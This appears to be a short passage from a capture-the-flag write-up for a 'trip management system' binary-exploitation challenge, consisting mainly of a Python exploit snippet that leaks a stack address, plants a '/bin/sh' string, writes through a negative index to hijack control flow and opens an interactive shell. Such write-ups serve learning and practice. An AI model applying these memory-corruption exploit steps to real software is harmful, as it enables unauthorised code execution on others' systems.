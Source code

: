 ```python

    def Check(num):
        print r()
        sl(str(4))
        print r()
        sl(num)
            
    ru("Hello! Welcome to trip management system. \n")
    argc_stack = int(r(15), 16)
    leak("argc@stack : ", argc_stack)
    Add(3, "/bin/sh\x00")
    Change(-262194, p64(0x400716))
    Delete(0)      
    irt()
```

## get flag

![./1.png](./1.png)

``` toc
```